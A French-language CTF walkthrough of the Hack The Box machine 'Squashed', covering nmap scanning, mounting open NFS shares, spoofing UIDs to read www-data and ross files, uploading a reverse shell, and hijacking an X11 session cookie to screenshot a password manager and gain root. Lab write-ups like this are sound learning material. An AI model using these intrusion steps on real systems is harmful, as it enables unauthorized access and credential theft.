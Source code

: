 # Squashed - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-09 23:01 EST                                                                                                                               
Nmap scan report for 10.10.11.191                                                                                                                                                             
Host is up (0.029s latency).                                                                                                                                                                  
Not shown: 996 closed tcp ports (conn-refused)                                                                                                                                                
PORT     STATE SERVICE VERSION                                                                                                                                                                
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                                                                                                           
| ssh-hostkey:                                                                                                                                                                                
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Built Better
|_http-server-header: Apache/2.4.41 (Ubuntu)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      39361/udp   mountd
|   100005  1,2,3      42399/tcp6  mountd
|   100005  1,2,3      55677/tcp   mountd
|   100005  1,2,3      55999/udp6  mountd
|   100021  1,3,4      35773/tcp   nlockmgr
|   100021  1,3,4      41729/udp   nlockmgr
|   100021  1,3,4      43445/tcp6  nlockmgr
|   100021  1,3,4      49839/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp open  nfs_acl 3 (RPC #100227)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Lors de la visite du site web, rien de particulier n’est trouvé, c’est un site vide et gobuster ne montre rien. Je me tourne alors vers nfs en me renseignant sur ce que c’est.

```
It is a client/server system that allows users to access files across a network and treat them as if they resided in a local file directory. It has the same purpose as SMB but it cannot talk to SMB.
```

On découvre alors plusieurs directory partagés:

```bash
showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

On essaye alors de mount un de ces directories:

```bash
sudo mount -t nfs 10.10.11.191:/home/ross /mnt/remote
```

On tombe alors des fichiers tel que l’on peut  trouver sur un windows (alors que c’est un linux)

Il y a une database keypass mais sans le master password on ne peut pas faire grand chose

Le 2éme drive est lisible que par www-data. En cherchant un peu plus il est possible de duper NFS pour lui faire croire qu’on est www-data. Pour cela il faut créer un utilisateur local avec le même ID.

```bash
sudo useradd squashed
sudo usermod -u 2017 squashed
sudo groupmod -g 2017 squashed
```

On a donc maintenant accès au fichiers du serveur.

Il est donc possible d’upload un reverse shell et y accéder, on obtient le flag user et un foothold  sur le compte de alex.

A partir d’ici pas trop de pistes à part des fichiers par rapport à Xauthority dans le home de ross, on utilise la technique précédente pour mount sur notre machine et impersonifier ross

Rappel pour avoir l’id d’un user:

```bash
id -u ross
```

Maintenant on peut lire les fichiers de ross, notamment Xauthority:

```bash
squashed.htb0MIT-MAGIC-COOKIE-15mL9 ~<s
```

Ceci fait référence à X11 qui gère les fenetres linux

```bash
Essentially, when paired with a display manager, it serves as a full-fledged GUI which you can use to run programs that might not run headlessly.
```

Ce que nous avons est le cookie qui nous permet de nous authentifier à la session X

Il est facile de voler le cookie en faisant un simple set de variable (sur la session d’alex !):

```bash
export XAUTHORITY=/tmp/.Xauthority
```

Pour connaître le display utilisé il suffit de faire “w” sur la session de alex

```bash
w
 16:22:59 up 23 min,  1 user,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ross     tty7     :0               16:00   22:53   3.00s  0.03s /usr/libexec/gnome-session-binary --systemd --session=gnome
```

On peut alors utiliser xwd pour prendre un screenshot de l’écran

```bash
xwd -root -screen -silent -display :0 > /tmp/screen.xwd
```

Il faut ensuite récupérer ce fichier, avec un serveur python3 puis le convertir en format normal ou ouvrir avec gimp

La fenêtre active était le password manager avec le mdp du compte admin, on a donc root !

(ssh est désactivé pour root il faut alors su depuis alex)